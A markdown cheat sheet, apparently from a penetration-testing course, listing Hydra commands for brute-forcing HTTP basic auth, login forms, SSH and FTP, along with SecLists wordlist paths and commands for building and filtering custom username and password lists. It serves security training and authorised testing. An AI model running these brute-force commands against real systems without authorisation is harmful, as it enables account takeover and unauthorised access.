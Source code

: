 # Hydra

|**Command**|**Description**|
|---|---|
|`hydra -h`|hydra help|
|`hydra -C wordlist.txt SERVER_IP -s PORT http-get /`|Basic Auth Brute Force - Combined Wordlist|
|`hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`|Basic Auth Brute Force - User/Pass Wordlists|
|`hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`|Login Form Brute Force - Static User, Pass Wordlist|
|`hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`|SSH Brute Force - User/Pass Wordlists|
|`hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`|FTP Brute Force - Static User, Pass Wordlist|

# Wordlists

|**Command**|**Description**|
|---|---|
|`/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`|Default Passwords Wordlist|
|`/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt`|Common Passwords Wordlist|
|`/opt/useful/SecLists/Usernames/Names/names.txt`|Common Names Wordlist|

# Misc

| **Command**                                     | **Description**                        |
| ----------------------------------------------- | -------------------------------------- |
| `cupp -i`                                       | Creating Custom Password Wordlist      |
| `sed -ri '/^.{,7}$/d' william.txt`              | Remove Passwords Shorter Than 8        |
| ``sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt`` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt`              | Remove Passwords With No Numbers       |
| `./username-anarchy Bill Gates > bill.txt`      | Generate Usernames List                |
| `ssh b.gates@SERVER_IP -p PORT`                 | SSH to Server                          |
| `ftp 127.0.0.1`                                 | FTP to Server                          |
| `su - user`                                     | Switch to User                         |